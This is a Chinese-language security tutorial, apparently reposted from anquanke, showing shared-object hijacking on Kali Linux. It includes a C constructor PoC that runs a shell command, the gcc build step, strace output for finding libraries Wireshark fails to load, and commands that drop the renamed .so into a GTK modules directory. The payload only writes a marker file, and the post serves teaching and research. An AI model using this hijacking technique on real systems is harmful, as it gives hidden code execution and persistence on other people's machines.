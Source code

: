 > 原文链接: https://www.anquanke.com//post/id/82727 


# *nix系统上的共享对象(.so)注入


                                阅读量   
                                **85384**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01cb451c308a8309a6.jpg)](https://p3.ssl.qhimg.com/t01cb451c308a8309a6.jpg)

[介绍]

在WINDOWS平台上有"DLL Injection","DLL Hijacking"等技术,我尝试同样的技术在*nix系统上,“共享对象(so)注入“

我测试的系统为kali 1.1.0 32 bit

查看Linux OS系统信息



```
root@kali:~# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux 1.1.0
Release:  1.1.0
Codename:     moto
```

查看操作系统位数



```
root@kali:~# getconf LONG_BIT
32
[PoC Code]
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
static void nix_so_injection_poc() __attribute__((constructor));
void nix_so_injection_poc() `{`
         printf("PoC for DLL/so Hijacking in Linux n");
         system("touch /tmp/360bobao.txt &amp;&amp; echo "so injection PoC" &gt;/tmp/360bobao.txt");
`}`
```

[明白POC代码以及构造.so文件]



```
"__attribute__((constructor))" 是GCC的属性,通常会在程序开始共享库载入的时候执行,SO文件的.ctor段将标记构造函数。
从C代码编译SO的命令如下:
root@kali:~# gcc -shared -o libsoinjection.so -fPIC linux_so_loading.c
root@kali:~# ls -la libsoinjection.so
-rwxr-xr-x 1 root root 4859 Oct 15 16:50 libsoinjection.so
```

[手工演示注入利用]

我这里演示在wireshark中注入libsoinjection.so,首先需要查看哪个so文件尝试被wireshark载入,但是又没有在默认路径中搜索到。可以使用strace来做这个工作。



```
root@kali:~# strace wireshark &amp;&gt; wireshark_strace.log
root@kali:~# cat wireshark_strace.log |grep "No such file or directory"
access("/usr/lib/i386-linux-gnu/gtk-3.0/3.0.0/i686-pc-linux-gnu/modules/liboverlay-scrollbar.so", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/3.0.0/i686-pc-linux-gnu/modules/liboverlay-scrollbar.la", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/3.0.0/modules/liboverlay-scrollbar.so", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/3.0.0/modules/liboverlay-scrollbar.la", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/i686-pc-linux-gnu/modules/liboverlay-scrollbar.so", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/i686-pc-linux-gnu/modules/liboverlay-scrollbar.la", F_OK) = -1 ENOENT (No such file or directory)
access("/usr/lib/i386-linux-gnu/gtk-3.0/modules/liboverlay-scrollbar.so", F_OK) = 0
stat64("/usr/lib/i386-linux-gnu/gtk-3.0/modules/liboverlay-scrollbar.so", `{`st_mode=S_IFREG|0644, st_size=75972, ...`}`) = 0
open("/usr/lib/i386-linux-gnu/gtk-3.0/modules/liboverlay-scrollbar.so", O_RDONLY|O_CLOEXEC) = 3
```

我们要做的就是将libsoinjection.so重命名为上面wireshark在载入时没有找到的一个SO文件,并将它放在相应的目录,比如我这里的是liboverlay-scrollbar.so



```
root@kali:~# mv libsoinjection.so liboverlay-scrollbar.so
root@kali:~# mv liboverlay-scrollbar.so /usr/lib/i386-linux-gnu/gtk-3.0/3.0.0/modules/
```

现在让我们验证下注入前后的区别



```
root@kali:~# ls -la /tmp/360bobao.txt
ls: cannot access /tmp/360bobao.txt: No such file or directory
root@kali:~#wireshark
PoC for DLL/so Hijacking in Linux
Gtk-Message: Failed to load module "overlay-scrollbar"
DLL/.so Hijacking in Linux
Gtk-Message: Failed to load module "canberra-gtk-module"
```

现在查看/tmp/360bobao.txt已经被新建了



```
root@kali:~# cat /tmp/360bobao.txt
"so injection PoC"
```

[参考文档]

[http://blog.disects.com/search?q=dll+loading](http://blog.disects.com/search?q=dll+loading)

[http://tldp.org/HOWTO/Program-Library-HOWTO/dl-libraries.html](http://tldp.org/HOWTO/Program-Library-HOWTO/dl-libraries.html)

[http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)

[http://gcc.gnu.org/onlinedocs/gcc/Function-Attributes.html](http://gcc.gnu.org/onlinedocs/gcc/Function-Attributes.html)

这是最简单的SO文件劫持方法,原文章([https://www.exploit-db.com/papers/37606/](https://www.exploit-db.com/papers/37606/))说得比较粗略,如果想了解更多细节的读者,可以买本&lt;&lt;LINUX/UNIX系统编程手册&gt;&gt;来看看,下次我会讲讲LD_PRELOAD劫持方法。
